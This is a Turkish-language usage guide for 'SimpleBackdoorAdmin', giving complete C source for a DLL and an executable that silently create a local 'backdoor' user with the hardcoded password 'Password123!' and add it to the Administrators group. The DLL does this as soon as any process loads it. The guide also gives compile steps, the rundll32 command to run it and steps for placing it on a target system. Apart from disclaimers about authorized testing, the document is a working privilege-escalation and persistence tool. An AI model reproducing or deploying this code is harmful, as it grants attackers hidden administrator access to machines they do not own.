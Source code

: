 # SimpleBackdoorAdmin Kullanım Rehberi

## SimpleBackdoorAdmin Nedir?

**SimpleBackdoorAdmin.dll** ve **SimpleBackdoorAdmin.exe**, Windows sistemlerinde kullanıcı eklemek ve bu kullanıcıya yönetici yetkileri atamak için kullanılan örnek araçlardır. Bu araçlar genellikle eğitim amaçlıdır ve yalnızca test ortamlarında kullanılmalıdır.

> **Önemli Not:** Bu araçlar yalnızca yetkili test ortamlarında kullanılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Gereksinimler

- **Hedef Sistem:** Windows işletim sistemi çalıştıran bir makine.
- **Geliştirme Araçları:** Visual Studio gibi bir C/C++ derleyici.

---

## Kodların Anlamı

### SimpleBackdoorAdmin.dll

Bu DLL, bir süreç tarafından yüklendiğinde bir kullanıcı hesabı oluşturur ve bu kullanıcıyı yönetici grubuna ekler.

**Temel İşlev:**
- `DllMain` fonksiyonu, DLL yüklendiğinde `net user` ve `net localgroup` komutlarını çalıştırır.
- **Kullanıcı:** `backdoor`
- **Parola:** `Password123!`

**Kod:**
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
        i = system ("net user backdoor Password123! /add");
        i = system ("net localgroup administrators backdoor /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

### SimpleBackdoorAdmin.exe

Bu uygulama, `net user` ve `net localgroup` komutlarını çalıştırarak aynı işlemi yapar. DLL'den farklı olarak doğrudan çalıştırılır.

**Kod:**
```c
#include <stdlib.h>

int main ()
{
  system("net user backdoor Password123! /add");
  system("net localgroup administrators backdoor /add");

  return 0;
}
```

---

## Kullanım

### 1. Derleme
1. Visual Studio veya benzeri bir IDE kullanarak projeyi oluşturun.
2. `SimpleBackdoorAdmin.dll` ve `SimpleBackdoorAdmin.exe` dosyalarını derleyin.

### 2. Çalıştırma

#### DLL'in Yüklenmesi
DLL'i bir uygulamaya yükleyerek çalıştırabilirsiniz. Örneğin:

```bash
rundll32.exe SimpleBackdoorAdmin.dll, DllMain
```

#### EXE'nin Çalıştırılması
EXE dosyasını çalıştırarak işlemi gerçekleştirin:

```bash
SimpleBackdoorAdmin.exe
```

---

## Örnek Senaryolar

### DLL Kullanımı
1. DLL dosyasını bir hedef sisteme yükleyin.
2. `rundll32` komutunu kullanarak çalıştırın.

### EXE Kullanımı
1. EXE dosyasını hedef sistemde çalıştırın.
2. `backdoor` adlı kullanıcı oluşturulacak ve yönetici grubuna eklenecektir.

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** Bu araçlar yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Üretim ortamında kullanılmadan önce test ortamında denenmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
